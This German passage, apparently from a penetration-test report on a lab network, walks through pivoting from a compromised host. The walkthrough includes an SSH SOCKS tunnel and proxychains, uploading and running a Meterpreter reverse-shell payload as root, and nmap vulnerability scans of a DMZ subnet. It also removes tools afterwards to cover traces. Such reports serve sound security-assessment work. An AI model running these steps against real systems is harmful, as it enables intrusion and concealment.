\section{Session-Handling zum Host myron}
\label{session-management-myron}
Mit dem aus Schwachstellen eins bis drei erlangten Wissen, kann ein Angreifer das Session-Management deutlich vereinfachen. Da im Falle eines Systemneustarts oder eines Netzwerkausfalls Meterpreter-Sessions abstürzen können, wird in diesem Kapitel beschrieben, wie der Angreifer ohne Nutzung des web-basierten Ping-Tools das Session-Handling vereinfachen und neu aufbauen kann. Es sei an dieser Stelle angemerkt, dass ein Angreifer jederzeit über Persistenz-Mechanismen (z. B. einem cron-Task) automatisiert eine Reverse-Shell installieren kann. Aus Gründen der Spurenminimierung wurde sich gegen diese Methodik entschieden.

\subsection{Anlegen einer SSH-Konfigurationsdatei auf der Kali-VM}
Mittels SSH-Konfigurationen können SSH-Zugänge mit einem sprechenden Namen elegant verwaltet und die Komplexität der Parameter abstrahiert werden. Textauszug \ref{lst:myron_ssh_setup} zeigt die SSH-Konfigurationsdatei mit einem Eintrag des \texttt{myron\_tunnel}-Hosts, der neben der IP-Adresse, Port und Benutzernamen für den \texttt{myron}-Host auch einen SOCKS-Proxy-Tunnel über Port 9000 öffnet und die Verbindung in einem Interval von 30 Sekunden überprüft. 

\lstset{language=bash,caption={SSH-Konfigurationsdatei der Kali-VM}, label=lst:myron_ssh_setup}
\begin{lstlisting}[frame=single, firstnumber=1, stepnumber=1,]
|--(gu4c4m0l3@kali-t470)-[~/Documents/pentest_MB-Reps/172_16_33_10]
|-$ cat ~/.ssh/config                                                                                                                      
Host myron_tunnel
        HostName login.mb-reps.cool.datcom.prv
        User myron
        Port 22
        DynamicForward 9000
        ServerAliveInterval 30
        ServerAliveCountMax 3
\end{lstlisting} 

SOCKS-Proxy kompatible Software (wie z. B. Firefox) kann somit Verbindungen ausgehend vom \texttt{myron}-Host zu weiteren Systemen aufbauen und ermöglicht einem Angreifer den Zugriff auf bisher unerreichbare Systeme. Das Programm \texttt{proxychains} ermöglicht darüber hinaus auch nicht SOCKS-Proxy kompatiblen Programmen den Netzwerkverkehr zu tunneln. Die dazugehörige Konfigurationsdatei von Proxychains wird in Textauszug \ref{lst:proxychains_config} dargestellt und zeigt, dass ausgehende Netzverkverbindungen durch Proxychains an \texttt{localhost:9000} und somit im Falle der offenen SSH-Verbindung auch durch den Proxy-Tunnel zum myron-Host weitergeleitet werden.

\lstset{language=bash,caption={Proxychain Konfigurations-Datei}, label=lst:proxychains_config}
\begin{lstlisting}[frame=single, firstnumber=1, stepnumber=1,]
|--(gu4c4m0l3@kali-t470)-[~/Documents/pentest_MB-Reps/172_16_33_10]
|-$ cat /etc/proxychains.conf
# proxychains.conf  VER 3.1
strict_chain

# Proxy DNS requests - no leak for DNS data
proxy_dns 

# Some timeouts in milliseconds
tcp_read_time_out 15000
tcp_connect_time_out 8000

[ProxyList]
socks5 127.0.0.1 9000
\end{lstlisting} 

\subsection{Aufbau einer Meterpreter-Session mit Root-Berechtigungen}

Mittels \texttt{sshpass -f myron-pw.txt scp ../172\_16\_30\_80/rshell myron\_tunnel:/tmp/rshell} wird die Linux-Meterpreter-Payload-Datei \texttt{rshell} in den Temp-Ordner des \texttt{myron}-Hosts durch den im oben beschriebenen SSH-Tunnel kopiert. Um eine passwortlose Anmeldung zu ermöglichen, wird das Tool \texttt{sshpass} mit der Angabe des \texttt{-f myron-pw.txt} Parameters verwendet, wobei \texttt{myron-pw.txt} das Passwort des Benutzers enthält.

Sofern noch nicht geschehen, muss innerhalb Metasploit ein Handler zum entgegenehmen der Reverse-Shell gestartet werden (s. Textauszug \ref{lst:start_msf_handler_port22}).

\lstset{language=bash,caption={Starte Reverse-Meterpreter-Handler auf Port 22 der Kali-VM}, label=lst:start_msf_handler_port22}
\begin{lstlisting}[frame=single, firstnumber=1, stepnumber=1,]
gu4c4m0l3@msf-kali-t470 [S:0, J:0] > handler -p linux/x64/meterpreter/reverse_tcp -H tap0 -P 22
[*] Payload handler running as background job 0.
[*] Started reverse TCP handler on 172.16.76.12:22 
gu4c4m0l3@msf-kali-t470 [S:0, J:1] > 
\end{lstlisting}

Textauszug \ref{lst:session_setup_myron} zeigt den Meterpreter-Upload mittels SCP und die Ausführung der Meterpreter-Payload unter Root-Berechtigungen.

\lstset{language=bash,caption={Upload und Start der Reverse-Meterpreter-Payload unter Root-Berechtigungen}, label=lst:session_setup_myron}
\begin{lstlisting}[frame=single, firstnumber=1, stepnumber=1,]
|--(gu4c4m0l3@kali-t470)-[~/Documents/pentest_MB-Reps/172_16_33_10]
|-$ sshpass -f myron-pw.txt scp ../172_16_30_80/rshell myron_tunnel:/tmp/rshell                                     
|--(gu4c4m0l3@kali-t470)-[~/Documents/pentest_MB-Reps/172_16_33_10]
|-$ sshpass -f myron-pw.txt ssh myron_tunnel                                   
Welcome to Ubuntu 14.04 LTS (GNU/Linux 3.13.0-24-generic x86_64)

 * Documentation:  https://help.ubuntu.com/

  System information as of Sun Feb 27 00:25:47 CET 2022

  System load:  0.0               Processes:           127
  Usage of /:   15.7% of 8.50GB   Users logged in:     0
  Memory usage: 5%                IP address for eth0: 172.16.33.10
  Swap usage:   0%

  Graph this data and manage this system at:
    https://landscape.canonical.com/

New release '16.04.7 LTS' available.
Run 'do-release-upgrade' to upgrade to it.

Last login: Sat Feb 26 23:19:45 2022 from 172.16.76.12
myron@myron:~$ sudo -s
[sudo] password for myron: 
root@myron:~# chmod +x /tmp/rshell 
root@myron:~# /tmp/rshell &
[1] 23463
root@myron:~# 

\end{lstlisting}

Damit das Metasploit-Framework die Routen zu dem neuen Netzwerk \texttt{172.16.33.0/24} zuordnen kann, muss eine neue Route zur soeben neu erstellen Meterpreter-Session durch den Befehl \texttt{route add 172.16.33.0/24 1} erstellt werden. Abbildung \ref{fig:msf_add_route_myron} zeigt die dazugehörigen Befehle in Metasploit.

\begin{figure}[htbp]
    \centering
    
\includegraphics[width=\textwidth]{./img/myron_session_mgmt/msf_route_add}
    \caption{Route \texttt{172.16.33.0/24} zur Meterpreter-Session hinzufügen.}
    \label{fig:msf_add_route_myron}
\end{figure}

\subsection{Proxy-Konfiguration für Firefox und Proxychains}
Damit Firefox den über SSH geöffenten SOCKS-Proxy nutzen kann, müssen die Einstellungen des Browser angepasst werden. Abbildung \ref{fig:myron_session_firefox_proxy_settings} zeigt die nötigen Proxy-Einstellungen, welche über das \texttt{Menü -> Settings -> Network Settings -> Settings...} vorgenommen werden können.

\begin{figure}[htbp]
    \centering
    
\includegraphics[width=0.7\textwidth]{./img/myron_session_mgmt/firefox_proxy_settings}
    \caption{Firefox Proxy-Einstellungen zur Nutzung mit SSH-Socks-Proxy-Tunnel}
    \label{fig:myron_session_firefox_proxy_settings}
\end{figure}


Abschließend wird zur Vollständigkeit in Textauszug \ref{lst:proxychains_demo} das Proxychains-Tool gezeigt, bei dem mittels \texttt{wget} die für den Angreifer von außen nicht erreichbare IP-Adresse  \texttt{172.16.33.10} des Webauftritts  über den SSH-SOCKS-Proxy-Tunnel angefragt wird.

\lstset{language=bash,caption={Anwendung von \texttt{wget} über SSH-Socks-Proxy-Tunnel mittels \texttt{proxychains}}, label=lst:proxychains_demo}
\begin{lstlisting}[frame=single, firstnumber=1, stepnumber=1,]
|--(gu4c4m0l3@kali-t470)-[~]
|-$ proxychains wget http://172.16.33.10/myron.html
[proxychains] config file found: /etc/proxychains.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.15
--2022-02-27 01:16:10--  http://172.16.33.10/myron.html
Connecting to 172.16.33.10:80... [proxychains] Strict chain  ...  127.0.0.1:9000  ...  172.16.33.10:80  ...  OK
connected.
HTTP request sent, awaiting response... 200 OK
Length: 10975 (11K) [text/html]
Saving to: 'myron.html.1'

myron.html.1                     100%[=========================================================>]  10.72K  --.-KB/s    in 0s      

2022-02-27 01:16:10 (33.0 MB/s) - 'myron.html.1' saved [10975/10975]
\end{lstlisting}

In den nachfolgenden Kapitel wird davon ausgegangen, dass eine Meterpreter-Session (mit Root-Berechtigungen) zum \texttt{myron}-Host existiert und das über den lokalen Port 9000 der Kali-VM ein SOCKS-Proxy-Tunnel zur \texttt{myron}-Maschine aufgebaut ist sowie der Firefox-Browser und das Proxychains-Tool anhand der oben dargestellten Konfigurationen eingerichtet sind.

\section{Weitere Aufklärung des Netzes 172.16.30.0/24}
Bisherige Analysen haben gezeigt, dass sowohl \texttt{mb-reps.cool.datcom.prv} als auch  \texttt{login.mb-reps.cool.datcom.prv} über verschiedene IP-Adressen hinter einer NAT-Firewall zum \texttt{myron}-Host gehören. Um gegebenenfalls weitere Hosts ausfindig zu machen, wurde eine Reverse-DNS-Auflösung des Subnetzes \texttt{172.16.30.0/24} durchgeführt (.s Textauszug \ref{lst:reverse_dns}).

\lstset{language=bash,caption={Reverse-DNS-Lookup für Subnetz \texttt{172.16.30.0/24}}, label=lst:reverse_dns}
\begin{lstlisting}[frame=single, firstnumber=1, stepnumber=1,]
|--(gu4c4m0l3@kali-t470)-[~]
|-$ for i in {1..254}; do host 172.16.30.$i | grep "domain name"; done

80.30.16.172.in-addr.arpa domain name pointer mb-reps.cool.datcom.prv.
89.30.16.172.in-addr.arpa domain name pointer asterisk.mb-reps.cool.datcom.prv.
222.30.16.172.in-addr.arpa domain name pointer login.mb-reps.cool.datcom.prv.
\end{lstlisting} 

Neben den beiden bekannten DNS-Namen konnte unter der IP-Adresse \texttt{172.16.30.89} der DNS-Name \texttt{asterisk.mb-reps.cool.datcom.prv} aufgelöst werden. Der nmap-Scan aus Textauszug \ref{lst:nmap_asterisk} zeigt, dass dieser Host auf Port 8088 einen HTTP-Server und auf Port 8089 einen HTTPS-Server betreibt. Der Aufruf mit dem Webbrowser zeigt die dazugehörige Webseite, die neben dem Produkt \texttt{Asterisk} in der Version \texttt{13.17.0} keine weitere Auskunft gibt. Auch ein Wörterbuchscan mit \texttt{dirb} konnte keine weiteren HTTP-Pfade aufdecken.

\lstset{language=bash,caption={Nmap-Scan von \texttt{asterisk.mb-reps.cool.datcom.prv}}, label=lst:nmap_asterisk}
\begin{lstlisting}[frame=single, firstnumber=1, stepnumber=1,]
gu4c4m0l3@msf-kali-t470 [S:0, J:1] exploit(linux/local/rds_rds_page_copy_user_priv_esc) > db_nmap --dns-servers 172.16.77.1 -Pn -sS -sV -O --script=vuln -T4 asterisk.mb-reps.cool.datcom.prv
[*] Nmap: Starting Nmap 7.92 ( https://nmap.org ) at 2022-02-28 01:20 CET
[*] Nmap: Nmap scan report for asterisk.mb-reps.cool.datcom.prv (172.16.30.89)
[*] Nmap: Host is up (0.034s latency).
[*] Nmap: Not shown: 998 filtered tcp ports (no-response)
[*] Nmap: PORT     STATE SERVICE  VERSION
[*] Nmap: 8088/tcp open  http     Asterisk 13.17.0
[*] Nmap: | http-slowloris-check:
[*] Nmap: |   VULNERABLE:
[*] Nmap: |   Slowloris DOS attack
[*] Nmap: |     State: LIKELY VULNERABLE
[*] Nmap: |     IDs:  CVE:CVE-2007-6750
[*] Nmap: |       Slowloris tries to keep many connections to the target web server open and hold
[*] Nmap: |       them open as long as possible.  It accomplishes this by opening connections to
[*] Nmap: |       the target web server and sending a partial request. By doing so, it starves
[*] Nmap: |       the http server's resources causing Denial Of Service.
[*] Nmap: |
[*] Nmap: |     Disclosure date: 2009-09-17
[*] Nmap: |     References:
[*] Nmap: |       http://ha.ckers.org/slowloris/
[*] Nmap: |_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-6750
[*] Nmap: |_http-server-header: Asterisk/13.17.0
[*] Nmap: |_http-csrf: Couldn't find any CSRF vulnerabilities.
[*] Nmap: |_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
[*] Nmap: |_http-dombased-xss: Couldn't find any DOM based XSS.
[*] Nmap: 8089/tcp open  ssl/http Asterisk 13.17.0
[*] Nmap: |_http-server-header: Asterisk/13.17.0
[*] Nmap: |_http-vuln-cve2014-3704: ERROR: Script execution failed (use -d to debug)
[*] Nmap: |_http-dombased-xss: Couldn't find any DOM based XSS.
[*] Nmap: |_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
[*] Nmap: |_http-csrf: Couldn't find any CSRF vulnerabilities.
[*] Nmap: Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
[*] Nmap: Device type: general purpose|firewall|storage-misc
[*] Nmap: Running (JUST GUESSING): Linux 2.6.X|3.X (90%), WatchGuard Fireware 11.X (89%), Synology DiskStation Manager 5.X (88%)
[*] Nmap: OS CPE: cpe:/o:linux:linux_kernel:2.6.32 cpe:/o:linux:linux_kernel:3.10 cpe:/o:watchguard:fireware:11.8 cpe:/o:linux:linux_kernel cpe:/a:synology:diskstation_manager:5.1
[*] Nmap: Aggressive OS guesses: Linux 2.6.32 (90%), Linux 2.6.39 (90%), Linux 2.6.32 or 3.10 (89%), Linux 3.10 (89%), Linux 3.4 (89%), WatchGuard Fireware 11.8 (89%), Linux 3.1 - 3.2 (89%), Synology DiskStation Manager 5.1 (88%), Linux 2.6.32 - 2.6.39 (85%)
[*] Nmap: No exact OS matches for host (test conditions non-ideal).
[*] Nmap: Service Info: Device: PBX
[*] Nmap: OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
[*] Nmap: Nmap done: 1 IP address (1 host up) scanned in 464.57 seconds
\end{lstlisting} 

Erste Recherchen lassen vermuten, dass es sich bei \texttt{Asterisk} um eine Produkt des gleichnamigen Herstellers mit der Webseite \url{https://www.asterisk.org/} handelt. Abbildung \ref{fig:asterisk_not_found} zeigt die HTTPS-Webseite der Asterisk-Anwendung, welche mit einem selbst-signierten Zertifikate für die HTTPS-Verschlüsselung betrieben wird. Es wird empfohlen aufgrund der \textit{Not Found}-Fehlermeldung zu prüfen, ob die Asterisk-Anwendung zwingend über Port 8088 und Port 8089 im Internet frei zugänglich sein muss. Sollte dies der Fall sein, sollte weiterhin geprüft werden, ob die alleinige Bereitstellung des verschlüsselten Zugangs über Port 8089 ausreichend wäre. Abschließend sollte für die HTTPS-Verbindung ein Zertifikat hinterlegt werden, welches von einer vertrauenswürdigen CA ausgestellt wurde.

\begin{figure}[htbp]
    \centering
    
\includegraphics[width=0.6\textwidth]{./img/vuln4_freepbx/asterisk_not_found}
    \caption{Aufruf der HTTPS-Asterisk-Webanwendung von \texttt{asterisk.mb-reps.cool.datcom.prv} über Port 8089.}
    \label{fig:asterisk_not_found}
\end{figure}



% DISCOVER 172.16.33.0/24
\section{Aufklärung des Netzes 172.16.33.0/24}
Abbildung \ref{fig:myron_ipconfig} zeigt die IP-Konfiguration des \texttt{myron}-Hosts. Neben der IP-Adresse \texttt{172.16.33.10} ist auch die Netzmaske \texttt{255.255.255.0} von Bedeutung und gibt die Größe des Subnetzes an. Da mit der Übernahme des \texttt{myron}-Hosts ein für den Angreifer neues Netzwerksegment \texttt{172.16.33.0/24} bekannt wurde, wird dieses zunächst aufgeklärt. Der SSH-Zugang mit root-Berechtigungen zum \texttt{myron}-Host ermöglichte aufgrund des Internetzugangs die Installation des Pakets \texttt{nmap} mit dem Befehl \texttt{apt-get install nmap}. 

\begin{figure}[htbp]
    \centering
    
\includegraphics[width=0.85\textwidth]{./img/myron_session_mgmt/myron_ipconfig}
    \caption{IP-Konfiguration des myron-Hosts}
    \label{fig:myron_ipconfig}
\end{figure}

Anschließend wurde das neue Subnetz mit dem nmap-Befehl \texttt{nmap -R -PS20-25,80,443,445,8080,8443 -p 1-10000 -sV -O --script=vuln 172.16.33.0/24 --exclude 172.16.33.10 -oX /tmp/nmap\_172\_16\_33\_0\_24\_scan} aufgeklärt. Das Ergebnis des Scans kann aus Textauszug \ref{lst:discovery_dmz} entnommen werden. Damit die Ergebnisse auch in Metasploit importiert werden können, wurden diese mit dem \texttt{-oX}-Parameter in die Datei \texttt{/tmp/nmap\_172\_16\_33\_0\_24\_scan} geschrieben und anschließend über die Meterpreter-Sitzung mit dem Befehl \texttt{meterpreter > download /tmp/nmap\_172\_16\_33\_0\_24\_scan} heruntergeladen und mit \texttt{gu4c4m0l3@msf-kali-t470 [S:1, J:1] > db\_import /home/gu4c4m0l3/nmap\_172\_16\_33\_0\_24\_scan} importiert.


\lstset{language=bash,caption={Aufklärung des \texttt{172.16.33.0/24}-Netzes mittels \texttt{nmap}}, label=lst:discovery_dmz}
\begin{lstlisting}[frame=single, firstnumber=1, stepnumber=1,]
root@myron:~# nmap -R -PS20-25,80,443,445,8080,8443 -p 1-10000 -sV -O --script=vuln 172.16.33.0/24 --exclude 172.16.33.10 -oX /tmp/nmap_172_16_33_0_24_scan

Starting Nmap 6.40 ( http://nmap.org ) at 2022-02-28 14:48 CET
Pre-scan script results:
| broadcast-avahi-dos: 
|   Discovered hosts:
|     172.16.33.11
|   After NULL UDP avahi packet DoS (CVE-2011-1002).
|_  Hosts are all up (not vulnerable).
Nmap scan report for mbgate.dmz.mb-reps.cool.datcom.prv (172.16.33.1)
Host is up (0.00026s latency).
Not shown: 9999 filtered ports
PORT   STATE SERVICE VERSION
53/tcp open  domain
MAC Address: E2:F5:79:8E:D6:1D (Unknown)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
Network Distance: 1 hop

Nmap scan report for mbint.dmz.mb-reps.cool.datcom.prv (172.16.33.2)
Host is up (0.00018s latency).
All 10000 scanned ports on mbint.dmz.mb-reps.cool.datcom.prv (172.16.33.2) are filtered
MAC Address: 42:7B:79:FF:AF:FE (Unknown)
Too many fingerprints match this host to give specific OS details
Network Distance: 1 hop

Nmap scan report for spoon.dmz.mb-reps.cool.datcom.prv (172.16.33.11)
Host is up (0.00024s latency).
Not shown: 9993 closed ports
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 5.3 (protocol 2.0)
53/tcp   open  tcpwrapped
80/tcp   open  http       Apache httpd 2.2.15 ((CentOS))
| http-enum: 
|   /robots.txt: Robots file
|_  /icons/: Potentially interesting folder w/ directory listing
|_http-fileupload-exploiter: 
|_http-frontpage-login: false
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-trace: TRACE is enabled
443/tcp  open  ssl/http   Apache httpd 2.2.15 ((CentOS))
| http-enum: 
|   /robots.txt: Robots file
|_  /icons/: Potentially interesting folder w/ directory listing
|_http-fileupload-exploiter: 
|_http-frontpage-login: false
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-trace: TRACE is enabled
5038/tcp open  asterisk   Asterisk Call Manager 2.10.0
8088/tcp open  http       Asterisk 13.17.0
|_http-fileupload-exploiter: 
|_http-frontpage-login: false
| http-slowloris-check: 
|   VULNERABLE:
|   Slowloris DOS attack
|     State: VULNERABLE
|     Description:
|       Slowloris tries to keep many connections to the target web server open and hold them open as long as possible.
|       It accomplishes this by opening connections to the target web server and sending a partial request. By doing 
|       so, it starves the http server's resources causing Denial Of Service. 
|       
|     Disclosure date: 2009-09-17
|     References:
|_      http://ha.ckers.org/slowloris/
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
8089/tcp open  unknown
MAC Address: 9A:4E:DC:B1:9F:8D (Unknown)
Device type: general purpose
Running: Linux 2.6.X|3.X
OS CPE: cpe:/o:linux:linux_kernel:2.6 cpe:/o:linux:linux_kernel:3
OS details: Linux 2.6.32 - 3.9
Network Distance: 1 hop
Service Info: Device: PBX

Nmap scan report for plate.dmz.mb-reps.cool.datcom.prv (172.16.33.42)
Host is up (0.00047s latency).
Not shown: 9999 filtered ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD 1.3.3c
| ftp-proftpd-backdoor: 
|   This installation has been backdoored.
|   Command: id
|_  Results: uid=0(root) gid=0(root) groups=0(root),65534(nogroup)
MAC Address: 42:7B:79:FF:AF:FE (Unknown)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Linux 2.6.X (88%)
OS CPE: cpe:/o:linux:linux_kernel:2.6.32
Aggressive OS guesses: Linux 2.6.32 - 2.6.35 (88%), Linux 2.6.32 - 2.6.39 (87%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 1 hop
Service Info: OS: Unix

OS and Service detection performed. Please report any incorrect results at http://nmap.org/submit/ .
Nmap done: 255 IP addresses (4 hosts up) scanned in 6423.06 seconds
\end{lstlisting} 




Besonders auffällig ist, dass die IP-Adressen \texttt{172.16.33.2} und \texttt{172.16.33.42} zur selben MAC-Adresse \texttt{42:7b:79:ff:af:fe} auflösen und stellt somit eine Anomalie dar, die unter anderem auch in Kapitel \ref{sec:vuln7} genauer behandelt wird. Darüber hinaus lässt es sich anhand der Subdomäne \texttt{dmz.mb-reps.cool.datcom.prv} mutmaßen, dass es sich bei dem Netzsegement um eine DMZ\footnote{DMZ: Demilitarisierte Zone} handelt. Des Weiteren fällt auf, dass die NSE-\texttt{vuln}-Skripte von nmap zur Aufdeckung von Schwachstellen bei dem Host \texttt{plate.dmz.mb-reps.cool.datcom.prv} eine verwundbare FTP-Version mit einer Backdoor aufgedeckt haben. Diese Schwachstelle wird genauer in Kapitel \ref{sec:vuln7} beschrieben. Weitere Analysen haben gezeigt, dass es sich bei dem Host \texttt{spoon.dmz.mb-reps.cool.datcom.prv} gleichzeitig auch um den Host \texttt{asterisk.mb-reps.cool.datcom.prv} handelt, da dieser über TCP-Port 8088/8089 ebenfalls den Asterisk-Dienst in der Version 13.17.0 bereitstellt. Abbildung \ref{fig:spoon_asterisk} zeigt den Aufruf des Webdienstes in Firefox über die URL \texttt{http://spoon.dmz.mb-reps.cool.datcom.prv:8088/}. Der Netzwerkscan zeigt darüber hinaus, dass der \texttt{spoon}-Host weitere Ports geöffnet hat, die in Kapitel \ref{sec:vuln4} genauer untersucht werden.

\begin{figure}[htbp]
    \centering
    
\includegraphics[width=0.85\textwidth]{./img/vuln4_freepbx/freepbx_website_spoon}
    \caption{Aufruf des Asterisk-Webdienst über \texttt{spoon.dmz.mb-reps.cool.datcom.prv}}
    \label{fig:spoon_asterisk}
\end{figure}

Analysen über \texttt{mbgate.dmz.mb-reps.cool.datcom.prv (172.16.33.1)} und \texttt{mbint.dmz.mb-reps.cool.datcom.prv (172.16.33.2)} zeigten, dass diese beiden Hosts keine TCP-Ports geöffnet haben. Es lässt sich daher - auch anhand des Namens\footnote{\texttt{mbgate} könnte für die äußere DMZ-Firewall stehen. \texttt{mbint} könnte im Gegensatz die Firewall zur Absicherung des internen Netzwerkes zur DMZ dienen.}  - mutmaßen, dass es sich hierbei um Gateway/Firewall-Komponenten handelt. 

Abschließend wurde das \texttt{nmap}-Paket zur Spurenminimierung mit dem Befehl (unter Root-Berechtigungen) \texttt{apt-get remove nmap} wieder entfernt.

\section{Schwachstelle 4: Vulnerable FreePBX Version 13.0.192.16 bei spoon.dmz.mb-reps.cool.datcom.prv}
\label{sec:vuln4}
Über eine veraltete und verwundbare Version 13.0.192.16 der FreePBX-Software kann ein Angreifer ausgehend vom bereits kompromittierten \texttt{myron}-Host den Host \texttt{spoon.dmz.mb-reps.cool.datcom.prv} über einen bekannten Exploit kompromittieren. Dabei erhält der Angreifer eine priviligierte Reverse-Shell zum \texttt{spoon}-Host mit Root-Berechtigungen.

\subsection{Beschreibung der Schwachstelle}
\label{subsec:vuln4_way}
